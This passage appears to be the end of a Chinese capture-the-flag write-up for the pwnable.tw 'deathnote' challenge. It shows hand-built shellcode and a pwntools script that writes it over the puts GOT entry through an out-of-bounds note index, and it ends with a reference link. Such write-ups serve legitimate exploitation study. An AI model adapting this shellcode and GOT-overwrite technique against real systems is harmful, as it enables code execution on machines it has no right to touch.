```python
    pop edx



    push edx
    pop eax
    xor al, 0x40
    xor al, 0x4b    
    push edx
    pop edx
    push edx
    pop edx
'''
shellcode = asm(shellcode) + '\x6b\x40'

index = (puts_got - note_addr)/4
addnote(index,shellcode)

io.interactive()

```



参考：

- [【PWNABLE.TW】 deathnote 解题思路](http://p4nda.top/2017/09/29/pwnable-tw-deathnote/)

